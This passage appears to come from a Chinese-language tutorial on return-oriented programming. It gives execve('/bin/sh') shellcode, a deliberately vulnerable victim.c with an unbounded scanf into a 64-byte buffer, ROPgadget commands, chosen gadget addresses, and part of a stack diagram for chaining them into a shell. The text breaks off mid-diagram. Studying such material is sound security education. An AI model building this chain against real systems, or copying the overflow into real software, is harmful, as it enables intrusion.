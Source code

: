 用exec系统调用打开一个shell终端需要的参数和指令如下：

            mov rax, 0x3b   ; system call number, 0x3b for sys_exec
            mov rdi, PROG   ; char *prog (program path)
            mov rsi, 0      ; char **agcv
            mov rdx, 0      ; char **env
            syscall
    PROG:   DB "/bin/sh", 0


其中rax为系统调用编号，rdi为字符串指针、指向可执行程序的完整路径，rsi和rdx都是字符串指针数组，保存了参数列表和环境变量，在此处可以直接至为0。

为了增大被攻击程序的体积，以搜索到尽可能多的gadgets，在原来的代码中增加一个`random函数`，同时用静态链接的方式重新编译一下victim.c：

    $ cat victim.c
    #include <stdio.h>
    #include <stdlib.h>

    int main() {
        char name[64];
        printf("What's your name?");
        scanf("%s", name);
        printf("Hello, %s%ld!\n", name, random());
        return 0;
    }
    $ gcc -o victim victim.c -static


手工搜索目标程序中的gadgets显然是不现实的，采用JonathanSalwan编写的`ROPgadget`搜索，网址在这里：[https://github.com/JonathanSalwan/ROPgadget](https://github.com/JonathanSalwan/ROPgadget)，可以使用pip安装：

    su
    apt-get install python-pip
    pip install capstone
    pip install ropgadget

安装完成后，可以使用下面的命令来搜索`gadgets`：

    ROPgadget --binary ./victim --only "pop|ret" > gadgets1.txt


搜索、挑选并组装gadgets的过程非常繁琐、复杂，不再叙述了。总之，最后找到了以下gadgets：

    0x00000000004003f2 : pop r12 ; ret
    0x00000000004018ed : pop r12 ; pop r13 ; ret
    0x0000000000487318 : mov rdi, rsp ; call r12
    0x0000000000431b3d : pop rax ; ret
    0x00000000004333d9 : pop rdx ; pop rsi ; ret
    0x000000000043d371 : syscall


按下图的方式拼装gadgets，图中的‘+’号旁边的数字0、1、2、...、13表示攻击程序执行过程中rip和rsp的移动顺序。


                   Stack                                          Code
    name-->+--------------------+                           +--------------+0<--rip
           | "\x00"*72          |                           | ret          |
    rsp-->0+--------------------+                           +--------------+
           | 0x00000000004003f2 |-----------------------+   | ...          |
          1+--------------------+                       +-->+--------------+1
           | 0x00000000004018ed |---------------------+     | pop r12      |
        2,5+--------------------+                     |     +--------------+2
           | 0x0000000000487318 |------------------+  |     | ret          |
      3,4,6+--------------------+                  |  |     +--------------+
           | "/bin/sh\x00"      |                  |  |     | ...          |
          7+--------------------+                  |  +---->+--------------+5
           | 0x0000000000431b3d |--------------+   |        | pop r12      |